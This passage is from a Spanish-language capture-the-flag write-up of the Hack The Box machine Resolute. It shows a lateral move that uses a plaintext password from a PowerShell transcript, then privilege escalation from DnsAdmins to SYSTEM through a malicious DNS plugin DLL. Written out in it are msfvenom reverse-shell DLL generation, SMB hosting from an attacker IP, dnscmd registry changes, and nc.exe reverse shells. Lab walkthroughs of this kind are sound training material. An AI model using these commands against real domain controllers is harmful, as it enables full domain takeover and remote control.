Recordemos que existe el servicio `WinRM` (que nos permite jugar con tareas administrativas) y para él hay una herramienta muy linda llamada [evil-winrm](https://github.com/Hackplayers/evil-winrm), ella nos permite obtener una **PowerShell** en el sistema siempre y cuando tengamos credenciales válidas, intentemos usarla:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_evilWinRM_melanieSH_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

VAMOOOOOOOOOOOOO, tamos dentroooooooooooowowowowoiqwjrasdkfjkalñd

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_gif_patricioOH.gif" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>

s1g4m0s...

...

# Movimiento lateral : Melanie -> Ryan [#](#creds-pstranscript) {#creds-pstranscript}

Recorriendo algunas carpetas del sistema vemos una oculta en la raíz: `PSTranscripts`:

```powershell
*Evil-WinRM* PS C:\> ls -force

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
...
d--h--        12/3/2019   6:32 AM                PSTranscripts
...
```

Su nombre es llamativo, ya que habla de scripts, entremos y veamos que hay:

```powershell
*Evil-WinRM* PS C:\PSTranscripts> ls -force -recurse

    Directory: C:\PSTranscripts

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203

    Directory: C:\PSTranscripts\20191203

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

Un directorio `20191203` y dentro un objeto `.txt`, veamos ese archivo:

```powershell
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
...
...
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4c123!
...
...
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="InputObject"; value="The syntax of this command is:"
cmd : The syntax of this command is:
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4c123!
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo          : NotSpecified: (The syntax of this command is::String) [], RemoteException
+ FullyQualifiedErrorId : NativeCommandError
...
...
**********************
Windows PowerShell transcript start
...
...
```

Es un archivo que uso `Ryan` para registrar todo lo que escribía mientras efectuaba el mapeado del directorio `\\fs01\backups` en `X:`, hay dos cosas interesantes, que escribió mal el comando (aunque lo hubiera ejecutado bien también tendríamos lo otro curioso 😏) y que uso sus credenciales así como si nada y pues nos dejó un historial to lindo.

* [Registrar a fichero de log la línea de comandos de PowerShell (Transcript en PowerShell)](https://www.eltallerdesharepoint.com/net/registrar-a-fichero-de-log-la-linea-de-comandos-de-powershell-transcript-en-powershell/).

Sabemos que `Ryan` es un usuario del `AD, pero no si también existe en el sistema, validemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_melanieSH_dirUsers_RYANfound.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, si existe, entonces probemos a obtener una nueva **PowerShell** pero ahora como él:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_evilWinRM_ryanSH_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OJITO, tamos dentro del sistema pero ahora como el usuario `Ryan` (:

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

En su escritorio hay una nota:

```powershell
*Evil-WinRM* PS C:\\Users\ryan\Desktop> type note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```

Jmmmm... Podemos interpretarlo como un ¿backup?, que da igual si cambiamos algo, ¿en un minuto volverá a quedar como antes? Investiguemos...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_gif_computerANDfireALLfine.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

Después de un tiempo perdido, volví atrás y con un simple comando ya nos encaminamos:

```powershell
*Evil-WinRM* PS C:\> whoami /all
...
...
GROUP INFORMATION
-----------------

Group Name             Type    SID                                            Attributes
====================== ======= ============================================== ===============================================================
...
MEGABANK\Contractors   Group   S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins     Alias   S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
...
```

Vemos que estamos en dos grupos distintos a los normales, uno de ellos con un nombre llamativo: `DnsAdmins`, si buscamos info sobre él en internet lo primero que encontramos son formas de escalar privilegios usándolo 😮

* [Feature, not bug: DNSAdmin to DC compromise in one line](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).
* [DNS Admin Privesc in Active Directory (AD)(Windows)](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2).
* [Windows Privilege Escalation: DnsAdmins to DomainAdmin](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/).
* [From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise).

Antes de explotar esta locura, recorramos un poco el "porque" del ataque...

Según [Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) por default los controladores de dominio (DC) también son servidores **DNS**, el tema es que eso expone al **DC** a ataques relacionados con servidores **DNS** :O

Únicamente los usuarios que estén en los grupos ***DnsAdmins, Domain Admins, Enterprise Admins, Administrators and ENTERPRISE DOMAIN CONTROLLERS*** tienen acceso al control/mantenimiento/gestion/actualización de un servidor **DNS** (que como dijimos antes, usualmente son **DC**s). Una vez dentro se pueden administrar zonas del **DNS**, redireccionamiento de puertos, logs, temas de la caché, objetos del servidor y de registros (etc.). Este último es interesante, ya que podemos escribir información adicional en el servidor **DNS** (:

Listones, nosotros estamos en uno de esos grupos, específicamente en `DnsAdmins`. Entonces para lograr la explotación debemos, cargar una **DLL** (librería dinámica) maliciosa en el servidor **DNS** (que esta siendo ejecutado como **SYSTEM, ya que por lo general el servidor es un **DC**).

💌 ***"Las `DLL (Dynamic Link Library)`, son fragmentos de código que se cargan bajo demanda por parte del sistema operativo durante la ejecución de una aplicación."*** [elladodelmal](https://www.elladodelmal.com/2020/07/dll-injection-como-hacer-hacking-en.html).

O sea, librerías que tiene por default (o no 😈) el sistema y son necesarias para ejecutar una aplicación.

En términos generales hay dos maneras de generar la ***DLL maliciosa***, una es con ayuda de `msfvenom` y la otra es construir nosotros mismos las instrucciones de la **DLL**, vamos a hacerlo de las dos maneras, pero dejaremos la creación manual de la **DLL** como aprendizaje para el final...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_gif_computertrash.gif" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>
  
Así que juguemos con `msfvenom`...

...

Los pasos necesarios para la explotación son estos (siguiendo [este](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) y [este post](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)):

<span style="color: yellow;">1. </span>Generamos la **DLL** maliciosa con `msfvenom`:

```bash
❱ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4433 -f dll -o sisisi.dll
❱ file sisisi.dll 
sisisi.dll: PE32+ executable (DLL) (GUI) x86-64, for MS Windows
```

<span style="color: yellow;">2. </span>Nos ponemos en escucha por **netcat** (para recibir la petición que hace la DLL y generar la Shell):

```bash
❱ nc -lvp 4433
```

<span style="color: yellow;">3. </span>Compartimos una carpeta donde esté la DLL generada, esto con ayuda de **SMB** (o **responder**):

```bash
❱ smbserver.py smbFolder $(pwd) -smb2support
```

La carpeta se llama `smbFolder`, le pasamos la ruta actual (el resultado del comando `pwd`) y le damos soporte a la versión 2 de samba.

<span style="color: yellow;">4. </span>Ahora agregamos la **DLL** al servicio **DNS**:

Validamos antes como esta el registro (se acuerdan lo que hablamos antes de que podíamos escribir cositas, entre ellas registros :P) que modificaremos:

```powershell
*Evil-WinRM* PS C:\> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

```powershell
*Evil-WinRM* PS C:\> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
Property ServerLevelPluginDll does not exist at path HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\.
...
```

Exacto, aún no lo hemos creado :P

Lo creamos diciendo que la **DLL** a agregar esta siendo compartida en una carpeta de **SMB**:

(*También podríamos subir la **DLL** al sistema y en vez de la carpeta compartida pasarle la ruta absoluta hacia ella*)

```powershell
*Evil-WinRM* PS C:\> dnscmd /config /serverlevelplugindll \\10.10.14.8\smbFolder\sisisi.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Y si ahora validamos la existencia del registro:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_ryanSH_registryDNSexists.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ya existe, peeeeerfectisimo. 

Como último paso debemos "reiniciar" el servicio **DNS** para que tome los cambios. Ejecutara el servidor **DNS**, leerá los registros relacionados, tomara el que llama la **DLL** y por lo tanto la ejecutara (:

<span style="color: yellow;">5. </span>Reiniciamos el servidor **DNS** para que ejecute nuestra **DLL**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_ryanSH_StopStartDNS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Una vez iniciamos el servidor **DNS** nos llega la petición a nuestra carpeta compartida buscando la **DLL**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_smbserver_requestsDLL.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si esperamos un rato pensaremos que no funciono, peeeeeeeero esperamos un ratico más yyyyyyyyyyy...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_SYSTEMrevSH_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

PERO CLARO QUE SIIIIIIIII, obtenemos nuestra **Reverse Shell** como el usuario `nt authority\system` (diosito) del sistema (: veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220flags.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y listos, eso ha sido todo por esta máquina ✈️ Si quieres ver como generar la **DLL** manualmente sigue conmigo e.e

...

# Post-PrivEsc: Creamos <u>DLL</u> manualmente [#](#manual-dll) {#manual-dll}

Buscando en internet `example dll dns github` encontramos 2 llamativos:

1. [https://github.com/dim0x69/dns-exe-persistance](https://github.com/dim0x69/dns-exe-persistance).
2. [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL).

Usaremos los dos para lograr la ejecución de comandos:

🅰 [Escalada generando **DLL** con **dns-exe-persistance**](#repo-dns-exe-persistance).<br>
🅱️ [Escalada generando **DLL** con **DNSAdmin-DLL**](#repo-dnsadmin-dll).

...

## Generamos la <u>DLL</u> usando <u>dns-exe-persistance</u> [📌](#repo-dns-exe-persistance) {#repo-dns-exe-persistance}

▶️ [https://github.com/dim0x69/dns-exe-persistance](https://github.com/dim0x69/dns-exe-persistance).

Revisando los post que hemos usado vemos que el siguiente tiene una estructura prácticamente igual al objeto `Win32Project1.cpp` del **primer recurso**, por lo que podemos pensar que o lo hizo él o se guio de ahí (o viceversa, el del repo se guio del post, no lo sabemos):

* [From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise).

Nos centraremos en el **primer recurso**, después será más rápido usar el **segundo**...

La estructura base del `DLL` (creo que de cualquier DLL) es esta (exactamente igual en los dos proyectos de arriba):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_git_structureDLL.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, la parte que nos interesa (y con la que juega el creador del post) es la que esta en al archivo `Win32Project1.cpp`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_git_structureDLL_PluginDNS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si nos fijamos la primera función se llama `DnsPluginInitialize`, lo que nos puede indicar que eso es lo que se ejecutara una vez el plugin sea iniciado, por lo queeeeeee ahí debe ir nuestra matralla. El post con el que venimos trabajando y [este](https://vbscrub.com/2020/01/11/dns-server-plugin-dll-implementation-dnsplugininitialize-etc/) nos lo confirman.

Listooos, apoyados de nuevo en el post vemos que implementa en esa función la instrucción `system()` para que le ejecute el binario `shell.cmd` de la raíz (que puede contener ya sea una reverse shell o lo que sea).

Pues aprovechemos ese conocimiento para implementar en el archivo `Win32Project1.cpp` una línea con la función `sy, pero como prueba que nos haga un `ping` hacia nuestra máquina, con lo cual si obtenemos la traza, sabemos que estamos ejecutando comandos en el sistema por medio de la `DLL`.

Nos movemos a una VM **Windows**, clonamos el repo, abrimos el objeto `Win32Project1.sln` (usaré [Visual Studio](https://visualstudio.microsoft.com/es/) para abrir el proyecto, modificarlo y compilarlo) y nos posicionamos en el archivo `Win32Project1.cpp`.

Ahora agregamos la línea con la instrucción `system()`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220win_VS_win32projCPP_systemPING.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Lo siguiente será compilar el proyecto para que nos genere el archivo `.dll`. 

Arriba cambiamos `Debug` por `Release`, le decimos que la arquitectura es de `64 bits` y finalmente damos clic en `Compilar` y `Recompilar solución`:

```c++
1>Generando código
1>0 of 4 functions ( 0.0%) were compiled, the rest were copied from previous compilation.
1>  0 functions were new in current compilation
1>  0 functions had inline decision re-evaluated but remain unchanged
1>Generación de código finalizada
1>Win32Project1.vcxproj -> C:\dns-exe-persistance\dns-plugindll-vcpp\x64\Release\Win32Project1.dll
========== Compilar: 1 correctos, 0 incorrectos, 0 actualizados, 0 omitidos ==========
```

Peeerfecto, no hay errores y se nos generó el archivo `Win32Project1.dll`, así que lo siguiente es movernos la librería (`DLL`) a nuestro sistema para posteriormente jugar con **SMB**, `tcpdump` para estar escuchando por si llegan paquetes `ICMP` (recordemos que `ping` envía ese tipo de paquetes), **dnscmd** para agregar el plugin y el reinicio del servidor **DNS**:

Ejecutamos:

```bash
❱ file Win32Project1.dll 
Win32Project1.dll: PE32+ executable (DLL) (GUI) x86-64, for MS Windows
❱ smbserver.py smbFolder $(pwd) -smb2support
❱ tcpdump -i tun0 icmp
```

```powershell
*Evil-WinRM* PS C:\> dnscmd /config /serverlevelplugindll \\10.10.14.8\smbFolder\Win32Project1.dll
*Evil-WinRM* PS C:\> sc.exe stop dns
*Evil-WinRM* PS C:\> sc.exe start dns
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_tcpdump_ICMP_RCEdone.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

VAAAAAaaaaAAmo0000000000000oo nos llega la traza `ICMP`, por lo taaaaaaaaaaaaaaaaanto, el servidor **DNS** esta ejecutando nuestro plugin y por lo consiguiente nuestro plugin ejecuta el `ping` (((((:

AHORAAAAAAAAAA!! Digámosle que nos genere una **reverse Shell**, pero en lugar de pasarle el binario pasémosle un archivo `.bat` que será el que contenga toooooooodos los comandos que queremos ejecutar, en nuestro caso el llamado al `nc.exe` o a un binario generado con `msfvenom`.

El archivo `.cpp` quedaría así:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220win_VS_win32projCPP_systemBAT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y en nuestro sistema creamos el objeto `hola.bat` con el llamado al binario `nc.exe` que también estaremos compartiendo en la misma carpeta `smbFolder`:

```bash
❱ cat hola.bat
\\10.10.14.8\smbFolder\nc.exe 10.10.14.8 4433 -e cmd.exe
```

Lo subimos a la máquina y nos ponemos en escucha:

```bash
❱ nc -lvp 4433
```

Hacemos todo lo de antes yyyyyyyyy en nuestro listeneeeeeeeeeeeeer:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_SYSTEMrevSH_dnsEXEpersistance.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Increibleeeeeeeeeeeeeee!! Cualquier comando que quisiéramos ejecutar lo pondríamos dentro de `hola.bat` y ya tendríamos RCE como diosito. Veamos rápidamente la otra manera...

...

## Generamos la <u>DLL</u> usando <u>DNSAdmin-DLL</u> [📌](#repo-dnsadmin-dll) {#repo-dnsadmin-dll}

▶️ [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL).

Este recurso es mucho más sencillo, él simplemente busca un archivo llamado `command.txt` en la ruta `C:\Windows\Temp`, parsea su información y cada línea la toma como comandos que serán ejecutados por la instrucción `system()`.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220win_VS_DNSAdmin_DLL_commandTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Po listo, no tenemos que cambiar nada del proyecto, compilamos de la misma forma que antes y nos genera la librería `DNSAdmin-DLL.dll`.

```c++
1>------ Operación Recompilar todo iniciada: proyecto: DNSAdmin-DLL, configuración: Release x64 ------
1>stdafx.cpp
1>dllmain.cpp
1>DNSAdmin-DLL.cpp
1>   Creando biblioteca C:\DNSAdmin-DLL\DNSAdmin-DLL\x64\Release\DNSAdmin-DLL.lib y objeto C:\DNSAdmin-DLL\DNSAdmin-DLL\x64\Release\DNSAdmin-DLL.exp
1>Generando código
1>Previous IPDB not found, fall back to full compilation.
1>All 4 functions were compiled because no usable IPDB/IOBJ from previous compilation was found.
1>Generación de código finalizada
1>DNSAdmin-DLL.vcxproj -> C:\DNSAdmin-DLL\DNSAdmin-DLL\x64\Release\DNSAdmin-DLL.dll
========== Recompilar todo: 1 correctos, 0 incorrectos, 0 omitidos ==========
```

Generamos el archivo `command.txt` de nuevo con la reverse shell generada con **nc**, pero para cambiar, ponemos el puerto `4434` (a ver que e.e):

```bash
❱ cat command.txt 
\\10.10.14.8\smbFolder\nc.exe 10.10.14.8 4434 -e cmd.exe
```

Subimos a la ruta `C:\Windows\Temp` y nos ponemos en escucha por el puerto `4434`, ahora ejecutamos:

```powershell
*Evil-WinRM* PS C:\Windows\Temp> dnscmd /config /serverlevelplugindll \\10.10.14.8\smbFolder\DNSAdmin-DLL.dll
*Evil-WinRM* PS C:\Windows\Temp> sc.exe stop dns
*Evil-WinRM* PS C:\Windows\Temp> sc.exe start dns
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_SYSTEMrevSH_DNSAdminDLL.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y LISTOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_gif_girlPChappy.gif" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

También obtenemos la reverse shell (: Así que tenemos 3 opciones, personalmente me gusta la segunda, ya que es muuuuuuuuuy sencilla de leer y saber que estamos haciendo.

Así que ahora si, nos vimoooooooooooooooooos...

...

¡Muy linda máquina eh! Me dan un poco de cosa los **DC**s, pero esta me quito muuuuuuuuuucho del "miedo" ante ellas, la escalada es brutal.

Bueeeeeno, hasta acá nos leemos 😥 cuídate y como sieeeempreeeeee: A R O M P E R T O D O ! ! !